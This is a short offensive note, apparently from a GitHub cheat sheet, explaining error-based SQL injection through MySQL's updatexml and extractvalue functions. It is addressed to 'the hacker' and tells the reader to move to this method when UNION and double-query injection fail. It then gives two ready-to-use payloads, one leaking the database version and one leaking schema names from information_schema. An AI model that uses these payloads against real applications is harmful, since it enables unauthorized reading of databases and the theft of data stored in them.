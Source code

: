 Newer DBMSs support xml By 2 functions:

    -updatexml(xml_frag,SQL-QUERY,xml_frag)
    
    -extractvalue(xml_frag,SQL-QUERY)

Note: Of course, the hacker should test other methods(UNION SELECT,Double Query,...) for SQLi and if it doesn't work, go to XMLi.


example: 

    ' or updatexml(1,concat(0x5e5e,version(),0x5e5e),1)-- 
    ' or updatexml(1,concat(0x5e,(select schema_name from information_schema.schemata limit 0,1),0x5e),1)--
